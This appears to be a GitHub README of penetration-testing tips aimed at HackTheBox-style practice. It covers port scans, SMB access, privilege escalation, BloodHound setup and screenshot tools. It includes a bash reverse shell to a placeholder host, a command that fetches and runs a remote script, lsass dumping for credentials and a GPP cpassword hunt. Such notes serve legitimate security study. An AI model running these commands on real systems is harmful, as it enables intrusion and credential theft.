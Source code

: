 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe scan -f ip_in_file.txt --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>

<b>cpassword</b>
<ul>
  <li> findstr -S cpassword $env:logonserver\sysvol\*.xml
  <li> crack passwords with https://github.com/t0thkr1s/gpp-decrypt
</ul>
